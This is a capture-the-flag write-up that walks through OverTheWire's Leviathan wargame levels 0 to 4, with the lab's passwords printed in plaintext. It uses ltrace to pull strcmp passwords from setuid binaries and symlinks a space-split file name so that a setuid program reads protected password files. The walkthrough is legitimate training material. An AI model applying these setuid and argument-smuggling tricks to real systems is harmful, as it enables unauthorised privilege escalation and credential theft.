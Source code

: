 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2
There is a binary with suid bit is set and it checks the password,
I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
$ ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

### leviathan3
There is a suid program named, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
$ ltrace ./printfile /etc/hostname
```
It checks the access permissions with `access()` function but there is a vulnerability about the `""`
while calling `/bin/cat` program.

Make a file with blank in its name and make a symbolic link with one of its parts
```
$ mkdir /tmp/xx
$ cd /tmp/xx
$ touch test\ pass3
$ ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
$ ~/printfile "test pass3"
Ahdiemoo1j
```

### leviathan4

There is a suid program check it out.
```
$ ./level3
Enter the password> aaaaa
bzzzzzzzzap. WRONG
```
Examine with ltrace
```
$ ltrace ./level3
...
strcmp("\n", "snlprintf\n")
...
```
`strcmp()` compares `snlprintf` with user input.
Use it as password;
```
$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

